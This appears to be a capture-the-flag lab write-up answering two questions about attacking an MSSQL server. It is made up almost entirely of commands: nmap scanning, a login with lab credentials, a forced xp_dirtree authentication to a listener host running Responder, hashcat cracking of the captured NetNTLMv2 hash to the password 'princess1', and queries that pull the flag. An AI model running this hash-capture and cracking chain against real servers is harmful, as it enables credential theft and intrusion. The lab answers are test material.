

## What is the password for the "mssqlsvc" user?

```
nmap -Pn -sV -sC -p1433 10.129.203.12
sqsh -U htbdbuser -P MSSQLAccess01! -S 10.129.203.12
mssqlclient.py -p 1433 htbdbuser@10.129.17.5

sudo responder -I tun0

/usr/share/doc/python3-impacket/examples/mssqlclient.py  -p 1433 htbdbuser@10.129.17.5
EXEC master..xp_dirtree '\\10.10.14.14\share\'
```


```
echo 'mssqlsvc::WIN-02:f4e48f12c25fa29c:11A339153BB3F8D00298E971DB0F5F9D:0101000000000000806C5A847996DC01712C27968FF9E3D70000000002000800500056004C00500001001E00570049004E002D003600330035004D0057004F00300036004D0045005A0004003400570049004E002D003600330035004D0057004F00300036004D0045005A002E00500056004C0050002E004C004F00430041004C0003001400500056004C0050002E004C004F00430041004C0005001400500056004C0050002E004C004F00430041004C0007000800806C5A847996DC01060004000200000008003000300000000000000000000000003000003686D32092EB74314FAAFBEDD4161CD66420696FE2EC3777D31A9D815A7558B00A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00310034000000000000000000' > hash.txt

hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt


```


## Enumerate the "flagDB" database and submit a flag as your answer.

```
sqsh -U mssqlsvc -P princess1 -S 10.129.203.12 
USE flagDB
go
SELECT table_name FROM flagDB.INFORMATION_SCHEMA.TABLES
go
SELECT * FROM tb_flag
go
```